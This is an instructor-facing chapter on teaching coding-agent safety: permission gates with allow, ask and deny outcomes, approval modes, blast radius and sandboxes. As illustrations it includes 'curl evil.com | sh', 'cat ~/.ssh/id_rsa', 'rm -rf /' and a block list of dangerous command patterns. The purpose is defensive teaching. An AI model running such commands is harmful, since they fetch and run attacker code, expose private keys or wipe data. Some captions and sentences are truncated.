






Teaching permissions & sandboxing
By the end of this chapter you'll be able to stand at a whiteboard and teach the safety story of a coding agent so clearly that a student never again asks "why does it keep asking me before it deletes things?" — because they'll feel the answer. You'll teach two ideas: the permission gate (the agent pausing to ask), and the blast radius (how much damage a mistake could do), with a kitchen and a fire door as your two anchor pictures. This is the chapter where students stop thinking of the agent as magic and start thinking of it as a very fast worker who needs guardrails — which is the truth of every agent in production today.
We built the hands in the last piece: read, write, edit, bash. We noted that bash is the dangerous one, and promised to guard it. This is where we keep that promise.
Start with the fear, honestly
Don't open with a definition. Open with a feeling. Ask the room: "You just gave a program permission to run any command on your laptop. It's fast, confident, and sometimes wrong. What could go wrong?"
Let them answer. Someone will say it: it could delete your files, push broken code, run something off the internet. Good — now they want the safety layer. You never have to sell it.
That "wait — are you sure?" is the whole chapter, said in five words. Everything else is mechanism. So let them scare themselves first — every guardrail below arrives as the answer to a fear they already feel.

figure rendering · The permission gate as a calm senior standing behind an eager, blindinThe permission gate: a pause with a question
Here's the plain-words mechanism. Every time the agent wants to do something — run a command, edit a file, delete something — the harness doesn't just do it. It intercepts the request, looks at what it is, and decides one of three things: let it through, ask the human first, or refuse outright. That checkpoint is the permission gate.
The key teaching point — and it surprises students — is that the gate is not a property of the model. The model doesn't police itself. The harness polices the model. The model asks; the harness decides. That wall between "what the agent wants" and "what actually happens" is code you write, not a personality you hope the model has.
bash("rm -rf node_modules"). Before that string reaches the shell, your gate function runs. It sees rm -rf and returns one of: ALLOW (run it), ASK (print it, wait for y/n), or DENY (refuse, tell the model no). Three outcomes. One checkpoint. Every command, every time.
figure rendering · The gate as a classifier every action must pass through: most are alloWhy "ask" and not just "block everything dangerous"
A sharp student will push back: "If rm is dangerous, why not just ban it?" This is a beautiful question and the answer teaches the whole balance.
Because sometimes you genuinely want it to delete things. You asked the agent to clean up the build folder — deleting build/ is the correct, helpful action. Ban all deletion and the agent is useless for half the real work. So the gate can't be a blunt "no." It has to be "let me check with the human on the risky ones" — because riskiness depends on context the harness can't fully judge, but the human can, in one glance.
rm -rf is dangerous. What it can't know is whether you meant it. So it shows you exactly what's about to happen and lets you, the one with the intent, make the call. The prompt is a handoff of judgment, not a failure of automation.This is why the middle outcome — ask — is the heart of the design. Pure allow is reckless. Pure deny is useless. The interesting agents live in the "ask on the risky stuff" middle, and the craft is drawing the line in the right place.
Approval modes: turning the dial
Now introduce the dial, because students have felt it. In Claude Code and pi and Cursor, there's a setting for how much the agent asks. You don't want to be pestered for every file read. But when it's about to touch production, you want to be asked about everything. So the gate's strictness is adjustable — these settings are called approval modes (or "permission modes").
Teach three points on the dial:
- Strict / manual — ask before nearly everything. Slow, but you see every move. Good for a new codebase you don't trust the agent in yet.
- Normal / default — auto-allow the safe reads and searches; ask on writes, deletes, and anything with reach outside the project. This is where most people live.
- Auto / "yolo" — allow almost everything without asking. Fast and hands-off. Only sane inside a sandbox (which is the second half of this chapter) — because if the agent can't escape a padded room, letting it run free inside that room is fine.

figure rendering · Approval modes as a knob: same gate, adjustable strictness — cautiousBlast radius: how far the damage reaches
Now pivot to the second big idea — the one that reorganizes how students think about the whole problem. Stop asking "is this command dangerous?" and start asking: "if this goes wrong, how far does the damage reach?" That reach has a name — the blast radius.
This changes the strategy. You can't make the model never make mistakes — it's probabilistic, it will sometimes be wrong. So instead of trying to prevent every bad action (impossible), you contain them: even the worst mistake can only wreck a small, recoverable space. Prevention is a leaky wall. Containment is a strong box. You want both, but the box is what lets you sleep.

figure rendering · Blast radius, drawn literally: the same mistake is trivial in a steelThe sandbox: the kitchen with a fire door
Here is the anchor picture for the whole chapter, the one students will remember a year later. Draw a kitchen.
A professional kitchen has open flames, hot oil, sharp knives — dangerous things, used constantly, at speed. How does a busy kitchen not burn down every night? Two things. The dangerous work happens inside the kitchen, a defined room — not spread across the whole restaurant. And there's a fire door between the kitchen and the dining room. If a fire starts, the door contains it. The cooks work fast and a little recklessly because the room is built to contain their worst day.
A sandbox is exactly this: a walled-off room where the agent works fast and makes mistakes, with a fire door between it and everything precious. Inside, the agent can read, write, delete, run commands — go wild. But the walls stop it reaching what matters: your other projects, your system files, your secrets, the network, production. You make it safe not by taking away the knives, but by putting a fire door between the kitchen and the guests — the agent can be bold precisely because boldness can't escape the room.

figure rendering · The sandbox as a kitchen with a fire door: the agent works fast insidecat ~/.ssh/id_rsa and it's simply not there. (2) network — outbound internet is off or allow-listed, so curl evil.com | sh can't phone home or pull down anything. (3) a copy, not the original — often the agent works in a throwaway container or a git worktree, so the very worst it can do is trash a copy you can delete and recreate. Three walls: what it can see, what it can reach, and whether it's touching the real thing.Why you need both the gate and the sandbox
Students will ask which one you need — the gate or the sandbox. The answer is both, and knowing why is the mark of someone who really gets it. They defend different failures.
The gate is about intent you can catch in time — it pauses on actions a human would want to eyeball, and hands you the decision. But a human can't eyeball everything, and in auto mode there's no human watching at all. The sandbox is the backstop for everything the gate waves through or you're not there to check — it shrinks what "yes" can cost. The gate reduces how often bad things are attempted; the sandbox reduces how much any bad thing can hurt.

figure rendering · The two layers side by side: the gate lowers how often something bad iThe board plan: how to actually deliver this
Here's the sequence that works. Don't lead with mechanism; lead with fear, then relief.
- The fear (5 min). Ask the room what could go wrong when a fast, confident program can run any command. Let them scare themselves. Now they want the rest.
- The gate (10 min). Draw the intern-and-senior picture. Introduce the three outcomes — allow, ask, deny. Hammer the point: the harness decides, not the model.
- The dial (5 min). Draw the approval-mode knob. Connect it to what they saw in Claude Code this morning — they've already met it.
- Blast radius (10 min). The firecracker in the bucket vs. the warehouse. Reframe from "is it dangerous?" to "how far does the damage reach?"
- The sandbox (15 min). The kitchen and the fire door — your keystone drawing. Then make the walls concrete: filesystem, network, copy-not-original.
- Both layers (5 min). Gate catches it; sandbox survives the miss. The belt-and-suspenders close.
run_bash from the last session in a tiny gate. Before running any command, check it against a small list of dangerous patterns — rm -rf, git push, curl, sudo — and if it matches, print the command and ask run this? [y/n]. Then, live in front of the class, ask the agent to "clean up temporary files." Watch it propose an rm, watch your gate stop and ask you. Say yes. Then run it again and say no, and show the agent gracefully getting the refusal and trying something else. Twelve lines of code, and the whole safety story is suddenly real and on screen.The demo is the moment. Students have heard about the permission prompt; here they build the prompt itself in a dozen lines and watch it fire. That's the aha — the guardrail isn't AI magic, it's an if statement they can write.
The confusions to head off
rm -rf / if it thinks that helps. The caution lives entirely in the harness code around the model. Fix it with a hard line: "The model is not polite. The harness makes it polite. Take the gate away and the same model will delete your disk without blinking." This separation — dumb-but-fast model, careful wrapper — is the mental model that makes everything else make sense.rm -rf build/ looks scary but has a tiny reach — a regenerable folder. git push --force looks mild but has a huge one — it rewrites shared history everyone depends on. Score the reach, not the scariness of the verb.You can now teach
- The permission gate as a security checkpoint every action must pass, with three outcomes — allow, ask, deny — and the crucial point that the harness decides, not the model.
- Approval modes as an adjustable dial (strict → normal → auto), tied directly to what students already saw in Claude Code, pi, and Cursor.
- Blast radius as the firecracker-in-a-bucket-vs-warehouse reframe: judge an action by how far its damage reaches, not by how scary the verb sounds.
- The sandbox as a kitchen with a fire door — a walled room where the agent can be bold — and its three concrete walls: filesystem, network, and copy-not-original.
- Why you need both layers: the gate catches the bad action, the sandbox lets you survive the one you miss — belt and suspenders.
- The live demo: wrap
bashin a twelve-line gate, watch it stop the agent mid-delete, and show students the guardrail is anifstatement, not magic.